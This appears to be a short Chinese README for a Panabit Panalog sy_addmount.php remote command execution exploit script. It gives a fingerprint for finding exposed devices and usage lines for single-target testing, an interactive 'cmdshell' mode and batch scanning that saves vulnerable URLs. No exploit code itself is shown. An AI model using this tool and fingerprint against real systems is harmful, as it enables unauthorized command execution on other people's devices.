


# Panabit sy_addmount.php 远程命令执行

Panabit Panalog sy_addmount.php过滤不足，可远程执行系统命令

## 指纹

body="Maintain/cloud_index.php"

## 工具利用

python3 Panabit_sy_addmount.php_rce.py -u http://127.0.0.1:1111 单个url测试

python3 Panabit_sy_addmount.php_rce.py -c http://127.0.0.1:1111 cmdshell模式

python3 Panabit_sy_addmount.php_rce.py -f url.txt 批量检测 

扫描会自动保存存在漏洞的url到vuln.txt

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
